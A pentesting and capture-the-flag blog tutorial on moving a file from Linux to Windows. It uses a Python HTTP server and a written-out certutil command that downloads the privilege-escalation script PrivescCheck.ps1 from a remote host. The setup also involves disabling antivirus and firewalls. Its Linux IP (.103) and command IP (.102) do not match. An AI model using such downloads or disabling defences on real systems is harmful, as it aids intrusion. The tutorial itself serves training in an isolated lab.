 ```yaml
---
layout: post
title: 'File Transfers - Part 2: Linux To Windows'
date: '2022-10-22 17:57:48 +0100'
categories: [Tutorial, OSCP]
tags: [linux, windows, oscp, python, file-transfer, pentesting, code, tutorial, ctf]
---
```


This is part of a series of tutorials on file transfer methods for pentesting and CTF scenarios.

_Disclaimer: It is necessary to disable any Anti-Virus (Windows Defender etc.) and also potentially any Firewalls
on the Windows system for these transfers to work. It is highly recommended to do this in a safe, virtualised environment that is not connected to any public network or the Internet. You're responsible for the security of your own systems. These tutorials are for educational purposes only._

# Linux to Windows File Transfer

In this tutorial, we will cover the use of `certutil.exe` for transferring a file from Linux to a Windows system.

## Scenario

We have a Windows and a Linux system connected to the same local network.

UBUNTU LINUX - 192.168.56.103<br>
WINDOWS 10 - 192.168.56.104

- We want to transfer the file `PrivescCheck.ps1` from LINUX to the WINDOWS system

![file-to-transfer](/assets/img/file-transfers-2/file-to-transfer.png)

- We will transfer the file to `C:\Windows\Tasks` on WINDOWS, since our fresh WINDOWS 10 install gives members of the **Authenticated Users** group write permissions on this directory, and it is currently empty.

![icacls-tasks](/assets/img/file-transfers-2/icacls-tasks.png)
<br>
![empty-dir](/assets/img/file-transfers-2/empty_dir.png)

In order to transfer a file FROM a Linux machine, we need to make it accessible to a remote machine. 
There are a number of ways we can do this. However, for this tutorial we will be using the **Python HTTP Server**.
We covered how to do this in [File Transfers: Part 1](https://dev-0x0.github.io/posts/file-transfers).

## Transferring the File

On our Linux system, we serve the file using the **Python HTTP Server.**

![serve-file](/assets/img/file-transfers-2/serve-file.png)

There are multiple ways we can transfer the file to the Windows system. It's important to know the different methods you can use, as sometimes a system has been configured such that some options are unavailable to you. Therefore, it's good to have as many tools in your toolkit as possible. In this tutorial, we will use the Windows `certutil` tool.

### Certutil.exe

According to [Microsoft](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil), "Certutil.exe is a command-line program, installed as part of Certificate Services". It is generally installed on Windows systems by default. However, we can use **certutil** to transfer files using the following command from our WINDOWS system. Providing a specific download location at the end of the command is generally optional, but may be necessary in certain situations.

`certutil -urlcache -split -f http://192.168.56.102:8000/PrivescCheck.ps1 [DOWNLOAD LOCATION]`
![certutil](/assets/img/file-transfers-2/certutil.png)

Listing the directory on WINDOWS, we can see that the file transferred successfully.

Looking at our **Python HTTP Server** on Linux, we can see the GET request that was made by **certutil**.
Sometimes there are two requests, that's okay.
![get-req1](/assets/img/file-transfers-2/get-req1.png)

## Conclusion

`Certutil.exe` is a very useful tool for file-transfers to Windows systems. Hopefully if you're reading this,
you found something of use here. Please check out the other [File-Transfer tutorials](https://dev-0x0/tags/file-transfer/) for more. Thanks for reading!









